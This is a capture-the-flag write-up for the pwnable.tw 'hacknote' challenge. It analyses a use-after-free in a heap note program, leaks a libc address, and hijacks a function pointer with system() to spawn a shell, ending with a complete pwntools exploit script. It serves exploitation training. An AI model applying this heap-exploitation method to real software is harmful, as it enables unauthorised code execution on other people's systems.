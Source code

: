 
# 📌 **hacknote - pwnable.tw**  

## 🔹 **Vulnerability Analysis**  

### 📌 **Vulnerable Function: `FUN_080487d4`**  
The vulnerability exists in the function **`FUN_080487d4`**, which suffers from a **Use-After-Free (UAF)** issue.  

---

### 🛠️ **Breakdown of the Issue**  

- The program allows us to create **a maximum of 5 notes**, where we specify the size of each note, and memory is allocated dynamically from the **heap**.  
- Each allocated note has an **extra seperate 8 bytes** for a function pointer, which is used when printing the note and the buffer ptr for the note description.  
- When a note is **freed**, its reference is **not set to NULL**, leading to **Use-After-Free (UAF)** and potential **Double-Free** vulnerabilities.  
- However, **Double-Free is not exploitable** here since the program restricts note creation to only 5 times.  
- **UAF is useful**, as it allows us to hijack the function pointer and overwrite it to achieve **EIP control**.  

---

## 🏴 **Exploitation Plan**  

### 1️⃣ **Leaking a libc address**  
- Allocate a **200-byte chunk** and then **free it**.
- Allocate a guard chunk to prevent the target chunk from merging with the top chunk upon being freed.
- Since the chunk goes to the **unsorted bin**, the **bk pointer** will leak an address from the **main arena** in libc.  
- Allocate a new chunk smaller than 200 bytes to write the first 4 bytes which are zeroed to leaking the bk pointer (the next 4 bytes).

### 2️⃣ **Hijacking the Function Pointer**  
- Allocate two chunks of random sizes (each greater than 16 bytes) to ensure they don’t end up in the same fastbin bucket (which holds chunks up to 16 bytes). The additional 8 bytes allocated alongside each chunk will help us later retrieve and overwrite the function pointer used for printing the note.
    +-------------------------------+<br>
    |      chunk1 extra 8 bytes      |<br>
    +-------------------------------+<br>
    |  fun ptr  |  chunk1 ptr        |<br>
    +-------------------------------+  <- Chunk 1 metadata<br>
    |        40 bytes               |<br>
    +-------------------------------+<br>
    |      chunk2 extra 8 bytes      |<br>
    +-------------------------------+<br>
    |  fun ptr  |  chunk2 ptr        |<br>
    +-------------------------------+  <- Chunk 2 metadata<br>
    |        40 bytes               |<br>
    +-------------------------------+<br>
    |            TOP                 |  <- Top chunk (wilderness)<br>
    |            ...                 |<br>
    +-------------------------------+<br>
- Free them, and then allocate a new **8-byte chunk**.
      +-------------------------------+<br>
    |    Chunk 3 extra 8 bytes      |<br>
    +-------------------------------+<br>
    |  fun ptr  |  chunk1 ptr        |<br>
    +-------------------------------+  <br>
    |            FREE                |<br>
    +-------------------------------+<br>
    |       Chunk 3 (8 bytes)        |<br>
    +-------------------------------+<br>
    |  system  |        sh           |<br>
    +-------------------------------+  <br>
    |            FREE                |<br>
    +-------------------------------+<br>
    |            TOP                 |  <- Top chunk (wilderness)<br>
    |            ...                 |<br>
    +-------------------------------+<br>
- This allows us to **reclaim a previously freed note’s chunk** from the fastbin.  
- Overwrite the **function pointer** (used for printing notes) with **`system()`**, leading to **EIP control** and **shell execution**.  
- UAF for the previous note to print its content which will result in calling system.
---

## 🔹 **Exploit Code**  
```python
#!/usr/bin/python3.10
from pwn import *

# p = process("./hacknote_patched")
p = remote("chall.pwnable.tw", 10102)

index = 0

def add_note(p, size, note):
    p.sendafter("Your choice :", "1")
    p.sendafter("Note size :", str(size))
    p.sendafter("Content :", note)

def delete_note(p, ind):
    p.sendafter("Your choice :", "2")
    p.sendafter("Index :", str(ind))

def print_node(p, ind, data2recv):
    p.sendafter("Your choice :", "3")
    p.sendafter("Index :", str(ind))
    if data2recv != "" :
	    p.recvuntil("CCCC")
	    return p.recvline()[:-1]


puts_got_addr = 0x804a024


add_note(p, 200, "AAAA")
add_note(p, 40, "BBBB")
delete_note(p, 0)

# Leak libc address
add_note(p, 16, "CCCC")  # Leak libc - 0x175f38 = system
add_note(p, 40, "DDDD")
addr = int.from_bytes(print_node(p, 0, "CCCC"), "little")
system_addr = addr - 0x175f38

print(f"Leaked address: {hex(addr)}")
print(f"System address: {hex(system_addr)}")


delete_note(p, 0)
delete_note(p, 3)
add_note(p, 8, p32(system_addr, "little") + b';sh\x00')
print_node(p, 0, "")

p.interactive()
